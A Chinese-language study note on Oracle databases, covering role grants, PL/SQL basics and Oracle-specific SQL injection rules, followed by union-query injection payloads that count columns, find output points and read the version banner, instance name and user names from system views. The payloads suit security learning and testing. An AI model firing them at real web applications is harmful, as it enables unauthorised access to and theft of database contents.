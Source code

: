 ```sql
	1. 无法使用WITH GRANT OPTION为角色授予对象权限
	2. 可以使用WITH ADMIN OPTION 为角色授予系统权限,取消时不是级联
```

# PL/SQL语言

PL/SQL 也是一种程序语言，叫做过程化 SQL 语言（Procedual Language/SQL）。

PL/SQL 是 Oracle 数据库对 SQL 语句的扩展。在普通 SQL 语句的使用上增加了编程语言的特点，所以 PL/SQL 就是把数据操作和查询语句组织在 PL/SQL 代码的过程性单元中，通过逻辑判断、循环等操作实现复杂的功能或者计算的程序语言。在 PL/SQL 编程语言是由甲骨文公司在 20 世纪 80 年代，作为 SQL 程序扩展语言和 Oracle 关系数据库开发。

基本结构如下：

```
DECLARE
    
BEGIN
    
EXCEPTION
    
END;
```

# SQL 注入需注意的规则

- Oracle 使用查询语言获取需要跟上表名，这一点和 Access 类似，没有表的情况下可以使用 dual 表，dual 是 Oracle 的虚拟表，用来构成 select 的语法规则，Oracle 保证 dual 里面永远只有一条记录。

- Oracle 的数据库类型是强匹配，所以在 Oracle 进行类似 Union 查询数据时必须让对应位置上的数据类型和表中的列的数据类型是一致的，也可以使用 NULL 代替某些无法快速猜测出的数据类型位置，这一点和 SQL Server 类似。

- Oracle 和 mysql 不一样，分页中没有 limit，而是使用三层查询嵌套的方式实现分页 例如: `SELECT * FROM ( SELECT A.*, ROWNUM RN FROM (select * from session_roles) A WHERE ROWNUM <= 1 ) WHERE RN >=0`

- Oracle 的单行注释符号是 `--`，多行注释符号 `/**/`。
- Oracle 数据库包含了几个系统表，这几个系统表里存储了系统数据库的表名和列名，如 user_tab_columns，all_tab_columns，all_tables，user_tables 系统表就存储了用户的所有的表、列名，其中 table_name 表示的是系统里的表名，column_name 里的是系统里存在的列名。

- Oracle 使用 `||` 拼接字符串（在 URL 中使用编码 `%7c` 表示），`concat()` 函数也可以实现两个字符串的拼接

# 联合查询注入

**Payload空格有问题，可以放在vscode中查看**

```sql
# 判断注入点
所有数据库方式都一样

# 判断列数
依旧提交 order by 去猜测显示当前页面所用的 SQL 查询了多少个字段，也就是确认查询字段数。
?id=1 order by 3 --+
?id=1 order by 4 --+

# 判断回显点
?id=-1 union select null,null,null from dual --+
?id=-1 union select 1,'2','3' from dual --+

# 获取数据库基本信息
?id=-1 union select 1,(select banner from sys.v_$version where rownum=1 ),'3' from dual --+
?id=-1 union select 1,(select instance_name from v_$instance),'3' from dual --+

# 获取数据库名，即用户名
Oracle 没有数据库名的概念，所谓数据库名，即数据表的拥有者，也就是用户名。
1. 获取第一个用户名
?id=-1 union select 1,(select username from all_users where rownum=1),'3' from dual --+
```